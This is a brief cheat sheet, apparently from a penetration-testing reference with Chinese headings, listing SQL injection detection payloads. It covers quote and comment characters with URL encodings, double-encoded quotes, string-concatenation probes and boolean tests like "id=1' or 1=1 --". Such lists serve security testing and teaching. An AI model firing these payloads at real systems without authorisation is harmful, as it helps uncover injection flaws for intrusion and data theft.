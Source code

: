 #### 简单字符
	'
	%27
	"
	%22
	#
	%23
	;
	%3B
	)
	Wildcard (*)
	&apos;  # required for XML content
#### 编码
	%%2727
	%25%27
#### 合并字符
	`+HERP
	'||'DERP
	'+'herp
	' 'DERP
	'%20'HERP
	'%2B'HERP
#### 逻辑测试
	page.asp?id=1 or 1=1 -- true
	page.asp?id=1' or 1=1 -- true
	page.asp?id=1" or 1=1 -- true
	page.asp?id=1 and 1=2 -- false